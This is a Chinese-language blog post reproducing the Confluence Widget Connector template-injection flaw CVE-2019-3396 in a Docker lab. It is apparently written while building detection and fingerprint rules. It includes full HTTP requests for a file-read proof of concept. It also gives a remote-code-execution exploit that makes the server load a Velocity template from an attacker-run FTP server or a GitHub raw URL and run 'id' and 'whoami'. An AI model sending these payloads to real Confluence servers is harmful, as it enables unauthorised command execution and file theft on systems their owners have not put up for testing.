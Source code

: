 ```yaml
---
layout:     post
title:      【复现】Confluence路径穿越与命令执行漏洞
subtitle:   Confluence路径穿越与命令执行漏洞
date:       2019-09-20
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞复现
---
```

## 前言
最近在给公司写指纹规则、漏洞检测和利用规则，因此漏洞复现的文章更新会比较频繁。

## 0x00 漏洞介绍
* 漏洞名称：Confluence 路径穿越与命令执行漏洞
* CVE编号：CVE-2019-3396
* 发布时间：2019-04-05
* 漏洞说明：Confluence Server 与 Confluence Data Center 中的 Widget Connector 存在服务端模板注入漏洞，攻击者构造特定请求可远程遍历服务器任意文件，甚至实现远程代码执行攻击。
* 影响范围：Confluence Server、Confluence Data Center
* 修复建议：目前官方已修复该漏洞，请升级到最新版

## 0x01 环境搭建
我的vulhub是老版本的，所以没有Confluence环境，我在Github找到了Confluence的docker-compose.yml：
```
version: '2'
	services:
	  web:
	    image: vulhub/confluence:6.10.2
	    ports:
	      - "8090:8090"
	    depends_on:
	      - db
	  db:
	    image: postgres:10.7-alpine
	    environment: 
	    - POSTGRES_PASSWORD=postgres
	    - POSTGRES_DB=confluence
```

保存下来，通过以下命令启动Confluence环境：
```
docker-compose up -d
```

访问10.20.40.96:8090，开始安装，选择Trial Installation后点击Next：
![图片](../../../../img/Confluence_rce_1.png)
这里需要去申请一个教育版的证书key:
![图片](../../../../img/Confluence_rce_2.png)
选择证书的时候需要注意选择Server版本的：

![图片](../../../../img/Confluence_rce_3.png)

输入License Key之后点击Next进入下一步，然后就会验证License Key，验证通过后开始安装，安装等待了五分钟，显示以下界面安装成功：
![图片](../../../../img/Confluence_rce_4.png)

### 搭建FTP Server
这里为了方便我使用python快速搭建FTP Server。
安装python ftp库：
```
pip3 install pyftpdlib
```
ftp_server.py代码如下：
```
from pyftpdlib.authorizers import DummyAuthorizer
from pyftpdlib.handlers import FTPHandler
from pyftpdlib.servers import FTPServer
 
authorizer = DummyAuthorizer()
authorizer.add_anonymous("F:\confluenceTest")
handler = FTPHandler
handler.authorizer = authorizer
server = FTPServer(("0.0.0.0", 21), handler)
server.serve_forever()
```

启动ftp_server.py:
```
python3 ftp_server.py
```
## 0x02 复现
### PoC验证
以读文件来验证漏洞是否存在，漏洞存在返回状态码为200，且存在指定关键词
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.20.40.96:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://10.20.40.96:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 168

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}
```

### EXP利用
下面的这个EXP需要用到我们在环境搭建的时候搭建的FTP Server
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.20.40.96:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://10.20.40.96:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 195

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"ftp://10.20.40.95/cmd.vm","cmd":"id"}}}
```
可以看到下图成功执行了id命令：
![图片](../../../../img/Confluence_rce_5.png)

如果觉得FTP服务麻烦的也可以使用https服务，我测试的时候也是可以执行命令的，http服务是不行的。
Github地址：[https://raw.githubusercontent.com/Yt1g3r/CVE-2019-3396_EXP/master/cmd.vm](https://raw.githubusercontent.com/Yt1g3r/CVE-2019-3396_EXP/master/cmd.vm)
```
POST http://10.20.40.96:8090/rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.20.40.96:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://10.20.40.96:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 247

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"https://raw.githubusercontent.com/Yt1g3r/CVE-2019-3396_EXP/master/cmd.vm","cmd":"whoami"}}}
```
![图片](../../../../img/Confluence_rce_6.png)

## 0x03 指纹
Confluence有一个非常明显的指纹特征，在响应报文中有两个字段：
* X-Confluence-Cluster-Node
* X-Confluence-Request-Time
## 0x04 总结
这个漏洞我在4月份的时候复现过，当时没有vm文件，所以只复现了读文件。时隔4个月，现在再来复现RCE的时候一开始还是遇到了问题，发包后服务器一直没响应，后来发现是FTP Server代码只开启监听本地，把127.0.0.1改成0.0.0.0就好了。

